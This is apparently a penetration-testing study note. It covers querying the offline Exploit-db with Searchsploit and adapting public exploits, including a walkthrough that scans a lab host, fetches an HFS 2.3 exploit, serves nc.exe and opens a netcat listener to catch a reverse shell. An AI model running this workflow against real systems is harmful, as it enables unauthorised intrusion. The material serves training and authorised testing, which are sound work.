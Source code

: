 #### Searchsploit

* In certain cases, you may not have access to online exploits and as a result, you must be able to use the exploit sources available locally/offline.
* The entire Exploit-db database of exploits comes pre-packaged with Kali Linux, consequently providing you with all exploits locally.
* The Exploit-db offline database of exploits can be accessed and queried with tool called Searchsploit.

```bash
kali@kali> sudo apt-get update && sudo ap-get install exploitdb -y
kali@kali> ls -la /usr/share/exploitdb
```

| Command                        | Description                                      |
| ------------------------------ | ------------------------------------------------ |
| `searchsploit -u`              | Update.                                          |
| `searchsploit -m 49757`        | Copy module 49757 into current directory.        |
| `searchsploit -c OpenSSH`      | Search with case-sensitive.                      |
| `searchsploit -t OpenSSH`      | Search every module with "OpenSSH" in its title. |
| `searchsploit -e "Windows XP"` | Search exact match "Windows XP".                 |
| `searchsploit -w ftp`          | Show urls.                                       |

### Fixing exploits

#### Fixing exploits

```bash
kali@kali> nmap -sV 10.3.19.221
kali@kali> searchsploit HFS 2.3
kali@kali> searchsploit -m 39161
kali@kali> vim 39161.py
```

You must set the **local IP address** and the **local port number listener** by yours.

```bash
kali@kali> cp /usr/share/windows-resources/binaries/nc.exe .
```

Before executing python script, create a web server `python -m SimpleHTTPServer 80` in a terminal and a netcat listener `nc -lnvp <port_listener>` on a second one.

```bash
kali@kali> python 39161.py 10.3.19.221 80
```

#### Cross-compiling exploits

* In certains cases, exploit code will be developed in C/C++/C#, as a result, you will need to compile the exploit code in to a PE (Portable Executable) or binary.
* Cross-compiling is the process of compiling code for a platform other than the one performing the compilation.
* As a penetration tester, you will need to have the skills necessary to compile exploit code developed in C.

